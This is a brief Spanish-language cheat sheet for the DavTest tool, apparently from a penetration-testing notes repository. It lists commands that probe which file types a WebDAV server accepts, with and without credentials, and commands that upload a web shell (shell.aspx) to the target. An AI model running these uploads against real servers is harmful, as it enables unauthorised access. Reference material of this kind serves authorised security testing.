 # DavTest Cheat Sheet

### Testear el sitio para conocer que tipo de archivos se pueden subir
```
davtest -url <URL>
```

### Con autenticación
```
davtest -url <URL> -cleanup -auth <USER>:<PASSWORD>
```

### Cargar un webshell
```
davtest -url <URL> -cleanup -uploadfile ./shell.aspx -uploadloc shell.aspx
davtest -url <URL> -cleanup -auth <USER>:<PASSWORD> -uploadfile ./shell.aspx -uploadloc shell.aspx
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)